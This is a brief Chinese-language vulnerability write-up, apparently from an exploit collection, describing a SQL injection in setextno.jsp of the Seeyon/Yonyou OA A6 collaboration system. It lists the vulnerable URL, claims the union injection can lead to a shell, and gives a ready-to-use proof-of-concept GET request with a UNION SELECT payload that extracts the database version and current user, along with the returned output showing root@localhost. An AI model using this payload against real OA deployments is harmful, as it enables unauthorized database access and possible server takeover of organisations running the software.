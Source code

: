 # 致远 OA A6 setextno.jsp sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/7.html](http://book.iwonder.run/0day/致远 oa/7.html)

## 一、漏洞简介

用友致远 A6 协同系统 SQL 注入，union 可 shell

## 二、漏洞影响

致远 OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp 
```

##### 漏洞详情:

```
版本：A6 用友致远 A6 协同系统 SQL 注入，union 可 shell 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(17) union all select 1,2,@@version,user()%23 
```

##### 回显内容

```
5.0.41-community-nt 
分机号 root@localhost 
```

